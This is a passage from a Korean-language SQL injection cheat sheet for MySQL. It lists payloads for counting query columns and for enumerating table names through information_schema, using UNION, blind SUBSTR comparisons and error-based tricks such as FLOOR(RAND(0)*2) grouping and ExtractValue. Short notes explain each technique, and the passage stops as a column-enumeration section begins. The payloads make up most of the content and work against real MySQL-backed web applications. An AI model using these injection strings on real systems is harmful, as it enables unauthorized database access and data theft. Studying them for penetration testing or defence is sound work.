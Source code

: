 예2 :<br>
`주어진 쿼리 SELECT username, permission FROM Users limit 1,{INJECTION POINT};`<br><br>

`1 INTO @,@,@&nbsp;&nbsp;&nbsp;&nbsp;사용된 SELECT 문은 다른 컬럼 수를 가짐.<br>
1 INTO @,@&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;에러가 없다는 건 컬럼 2개를 사용함을 의미함.<br><br>`

ⓓ 에러 기반3<br><br>

`AND (SELECT * FROM SOME_EXISTING_TABLE) = 1`<br><br>

노트 :<br>
이 작업은 이후의 테이블 명을 알고 에러 표시가 활성화된 경우 작동함.<br>
쿼리가 아닌 테이블의 컬럼 수를 반환함.<br><br>

예 :<br>
`주어진 쿼리 SELECT permission FROM Users WHERE id = {INJECTION POINT};`<br><br>

`1 AND (SELECT * FROM Users) = 1&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;피연산자는 3개의 컬럼을 포함해야 함.`<br><br>

**② 테이블 검색**<br><br>

ⓐ Union<br><br>

`UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;`<br><br>

노트 :<br>
MySQL 5 의 경우 version = 10 임.<br>
Union SQL Injection 이란 2개 이상의 쿼리를 요청하여 결과를 얻는 UNION 이라는 SQL 연산자를 이용한 SQL Injecion 공격을 말하며 공격자는 이 연산자를 이용하여 원래의 요청에 한 개의 추가 쿼리를 삽입하여 정보를 얻어냄.<br>
(전제 조건 : 컬럼의 갯수가 같아야 하고 데이터 형식도 같아야 함)<br><br>

ⓑ Blind<br>

`AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'`<br><br>

노트 :<br>
MySQL 5 의 경우 version = 10 임.<br>
Blind SQL Injection 이란 에러문과 같은 시작적 근거가 없을 때 사용하는 기법으로 참/거짓에 따른 차이를 이용한 SQL Injection 공격임.<br>
해당 기법에 주로 SUBSTR() 함수가 주로 쓰이며 해당 함수는 문자열과 자를 문자열의 범위를 파라미터로 받아서 해당 부분의 문자열을 리턴해주는 함수임.<br>
SUBSTR() 함수의 기본 형식은 아래와 같음.<br>
substr("문자열", 자르기 시작할 문자의 인덱스, 자를 문자의 개수)<br><br>

ⓒ Error<br><br>

`AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2)))<br><br>

(@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0);<br><br>

AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));-- Available in 5.1.5`<br><br>

노트 :<br>
MySQL 5 의 경우 version = 10 임.<br>

**③ 컬럼 검색**<br><br>

ⓐ Union<br><br>
